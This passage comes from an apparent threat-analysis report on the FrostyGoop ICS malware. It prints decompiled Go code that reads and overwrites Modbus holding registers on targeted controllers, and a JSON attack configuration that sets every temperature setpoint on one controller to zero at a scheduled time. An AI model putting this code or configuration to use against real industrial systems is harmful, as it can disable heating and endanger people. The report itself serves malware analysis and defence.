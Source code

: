 ### Phase 3: FrostyGoop Deployment
**MITRE ATT&CK**: T0821 - Modify Controller Tasking [[62]](#ref62)

#### Malware Capabilities Analysis
```go
// Decompiled FrostyGoop main function
// SHA256: 7c51d9a53e4d0c138831923e60a2a997df209e946228a0e12169b0243c0746aa [[63]](#ref63)
func main() {
    config := loadConfig("config.json")
    for _, target := range config.Targets {
        client := modbus.NewClient(target.IP, target.Port)
        
        // Function Code 3: Read Holding Registers
        data, _ := client.ReadHoldingRegisters(target.StartAddr, target.Count)
        log.Printf("Current values: %v", data)
        
        // Function Code 16: Write Multiple Registers
        newValues := make([]uint16, len(target.NewValues))
        for i, v := range target.NewValues {
            newValues[i] = uint16(v)
        }
        err := client.WriteMultipleRegisters(target.StartAddr, newValues)
        
        if err == nil {
            log.Printf("Successfully modified %s", target.IP)
        }
    }
}
```

### Phase 4: Process Manipulation
**MITRE ATT&CK**: T0855 - Unauthorized Command Message [[64]](#ref64)

#### Attack Configuration File
```json
{
  "targets": [
    {
      "ip": "10.1.1.50",
      "port": 502,
      "device": "ENCO_CONTROLLER_01",
      "start_addr": 40001,
      "count": 10,
      "new_values": [0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
      "description": "Set all temperature setpoints to 0"
    }
  ],
  "execution_time": "2024-01-22T03:47:00Z"
}
```

---